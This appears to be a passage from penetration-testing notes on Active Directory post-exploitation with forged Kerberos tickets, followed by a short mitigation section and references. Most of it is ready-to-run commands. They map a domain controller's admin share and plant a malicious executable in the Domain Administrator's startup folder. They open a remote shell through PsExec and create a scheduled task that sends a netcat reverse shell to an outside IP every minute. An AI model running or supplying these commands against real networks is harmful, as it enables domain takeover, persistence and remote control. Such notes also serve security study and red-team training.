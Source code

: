 ## Post Exploitation Techniques

{% code overflow="wrap" %}
```powershell
# Map drive
net use Z: \\dc01.security.local\C$

# Copy malware to Domain Administrator startup folder on DC
copy .\MaliciousFile.exe "\\dc01.security.local\c$\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"

# CMD 
.\PsExec.exe -accepteula \\dc01.security.local cmd

# Netcat
schtasks /create /sc minute /mo 1 /tn "Persistence" /tr 'c:\Users\Administrator\Downloads/nc.exe 10.10.10.10 443 -e cmd.exe'
```
{% endcode %}

## Other ticket combinations

| Technique         | Required Service Ticket |
| ----------------- | ----------------------- |
| PSexec            | CIFS                    |
| WinRm             | HOST & HTTP             |
| DCSync (DCs only) | LDAP                    |

## Mitigation

Limit service accounts to minimal required privileges, including membership in privileged groups such as Domain Administrators.

If possible use [group managed service accounts](https://technet.microsoft.com/en-us/library/hh831782\(v=ws.11\).aspx?f=255\&MSPPError=-2147217396) which have random, complex passwords (>100 characters) and are managed automatically by Active Directory [\[source\]](https://adsecurity.org/?p=2293)

## References

{% embed url="https://adsecurity.org/?p=2011" %}
